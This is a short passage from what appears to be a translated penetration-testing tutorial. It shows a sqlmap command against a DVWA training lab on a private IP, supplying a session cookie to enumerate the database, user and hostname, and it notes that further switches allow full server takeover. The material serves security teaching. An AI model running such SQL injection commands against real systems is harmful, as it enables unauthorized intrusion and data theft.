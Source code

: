     ![How to do it...](img/image_07_034.jpg)

6.  在发现 ID 参数易受 SQL 注入攻击后，我们修改了原始命令以添加额外的开关，如以下屏幕截图所示：

    ```
          sqlmap --url="http://172.17.0.2/dvwa/vulnerabilities/sqli/?id=1&      Submit=Submit#" --cookie=" security=low;       PHPSESSID=k5c4em2sqm6j4btlm0gbs25v26" --current-db --current-user       --hostname

    ```

7.  On running the preceding command, you can see the following output:

    ![How to do it...](img/image_07_035.jpg)

8.  类似地，您可以使用 sqlmap 中的其他开关继续并完全接管 web 服务器。
